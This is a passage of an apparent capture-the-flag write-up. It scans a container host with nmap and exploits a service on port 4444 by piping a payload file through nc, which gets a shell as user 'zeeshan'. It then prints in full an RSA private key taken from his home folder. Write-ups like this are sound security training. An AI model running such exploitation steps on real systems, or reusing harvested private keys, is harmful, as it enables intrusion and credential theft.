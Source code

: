 ```
./tmp/nmap -sT -p- 172.17.0.1
```

![](../images/Pasted%20image%2020250328182044.png)

Something is running on port `4444`, let's use `nc` to look at it:

```
nc 172.17.0.1 4444
```

![](../images/Pasted%20image%2020250328182132.png)

It runs the same as `ret` binary, we can exploit it in the same way then:

```
(cat /tmp/payload.p; cat) | nc 172.17.0.1 4444
```

![](../images/Pasted%20image%2020250328182223.png)

We got a shell as `zeeshan`, let's try reading his home folder to check if there's a private key for ssh:


![](../images/Pasted%20image%2020250328182321.png)

There we go, let's get it:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAxuNhK456dD+WXwoMLkfzQPvBsbnN27Aq8NfCVp4625XyoXi+
i2g2nYNOarOGX+/q/M0UmoObiaJOPLLig9oFm8ZPxHtmVgOTX2Go1pDWotEHZHL3
GdQ+W8lkg+h/X2C5WwlqUjcQxBuPsMgvZB4W714u5FpFOhiKtMwh20VX8AcwptJ8
ET4m79e+lChbPJqsQZcmtKkjzWhlIimfZWhYHca7DtljYpQf4+uVIle6diy5xot7
lxNniPc9v1y1YFSHYrFfFYmlnniWnBrVhXBw0sydJTnISxvI1p7pw4vMZX441oHb
FNsC+oCtW36HPEprpySilvIzdv1d8N56cW6BZQIDAQABAoIBAQCnb6NNbPxwQ1wP
lMDecZo7Wfcd7UN+MJhl++5Sx5Dbbig+gg1ABbL89h8dOxfkSnG0893lmuhlfWuK
NDr4L6LLGq/qxMxJm2cFRI1EXdkkZv9nNFYMu57n3OsvFZutqxtApfOJVWxa/K0C
cfVbvu0mBU9K1Sg0mZakULosA/vdSGQGXdyS1UmDNSLbfnffyccdk+TiB0mnKpp5
JfE3yML08AJYruEG7ZoNMM170RFtE40al1aox7X9fxe434+sTlBHWXNf+FkHTO8O
gQRQZKEDA2mMpUflMDRSyRjmoZfap7i9LCea4U7jlUeFH13ex3Sgbj6zOeIKMpCq
XBUKaSmhAoGBAOut6/PntcLUJns9oF1I6a4+343Au+Trx3UGeQCXOwIb1WhAXBH4
OvKZEK0qb76MANTU3VdqLXXLwharMd/AyXYX0cXObVQ7FWWF318+3JgVU7q65yx1
11+ZCIaRJfJDEjvbroEvD9xbPcDj3naYaJyqc2mV9OPov8cqAe8PZ+dZAoGBANgJ
YKRJUSyNP2E5xENkaUvQ+OODN4cwMO0yB4QAbFfSvZiR1vVllbgWlQQciAm7WY4j
ovQGrC6/tBr2ylza7hYFq3mNb1vvvKOZSr8x/FYhvoSpA4vMxDFmGM8Fc/gd3guv
LSPPP5nM1GBbgydL3rY5ZIhwCOQOj2ymqoKQkXTtAoGALFgGHFdNqMHYF7opsUOl
zEZCM96+u7ztQ4SbQdQyoxvvlHT/ndXx6XGJZLumWNjo0yLWHrt4oEBdXXyKnsoc
Xd7vdmN3yLBxPy/oLniacvcYUPsXwhLOGkumAgPPevzJsn+MHvxm5JQ6U0/MrM3S
aR/dJVG0ySki5Gtv/7YLW8kCgYEAhKCtLe684OcOI/g830rDwgHW6oXiDyKsxtHR
/13rJbeBIitWlmz5D3z9mvqRIbhc8IA8SCfYiRKz1WHxNjRJukdc0FDeLsjtPFqd
oudjDNXGitbgEHFzeQg+7slgOtDLQs0Wn0daumcfctB7oiJX5fMyHvj43Fl7/64K
PAHY6rkCgYEAsVk6DjjzRQCAMoyC9H4bwAWMkvYerSkmvIo3efCMyUdKtMjg3cCv
EFmGDkEL3l6/2W3bmF6kbYDOeSyRjAaZp59QUiNliiHneD9VwCVXT/IF70O+kNkf
c7FgDFMEoa44S7BZIhxymHyGN7xgPQ6EJonUuMCfmP83KLRZrkI4FPI=
-----END RSA PRIVATE KEY-----
```
